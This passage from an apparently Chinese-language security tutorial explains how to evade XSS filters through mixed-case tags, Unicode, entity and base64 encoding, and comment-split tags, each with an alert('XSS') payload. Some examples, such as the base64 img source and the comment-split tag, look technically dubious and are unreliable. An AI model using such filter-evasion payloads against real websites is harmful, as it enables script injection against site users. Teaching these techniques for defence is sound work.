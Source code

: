 **说明**：
通过编码，恶意代码可以隐藏其真实意图，绕过简单的过滤规则。




## 如何绕过XSS过滤器
绕过 XSS 过滤器是一种常见的攻击手段，攻击者通过各种技巧来规避防护机制。以下是几种常见的绕过 XSS 过滤器的方法：

### 1. 使用大小写混合

**描述**：
一些过滤器可能只检测特定大小写形式的标签或关键字。通过混合使用大小写，可以绕过简单的字符串匹配过滤器。

**示例**：
```html
<ScRiPt>alert('XSS');</ScRiPt>
```

**说明**：
如果过滤器只检测 `<script>`，而忽略了 `<ScRiPt>`，则攻击可能成功。

### 2. 使用不同的编码方式

**描述**：
通过使用不同的编码方式（如 Unicode 编码、HTML 实体编码、Base64 编码等），可以隐藏恶意代码，使其不被过滤器识别。

**示例**：
- **Unicode 编码**：
  ```html
  <img src="x" onerror="alert('\u0041\u004C\u0045\u0052\u0054')">
  ```
  解码后为 `alert('ALERT')`。

- **HTML 实体编码**：
  ```html
  <img src="x" onerror="alert(&quot;XSS&quot;)">
  ```
  解码后为 `alert("XSS")`。

- **Base64 编码**：
  ```html
  <img src="data:text/html;base64, PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+">
  ```
  解码后为 `<script>alert('XSS');</script>`。

### 3. 使用注释符

**描述**：
在标签或代码中加入注释符，可以干扰过滤器的解析逻辑，从而绕过过滤。

**示例**：
```html
<scri<!-- -->pt>alert('XSS');</scri<!-- -->pt>
```

**说明**：
通过在 `<script>` 标签中加入注释符 `<!-- -->`，可以绕过简单的标签过滤。

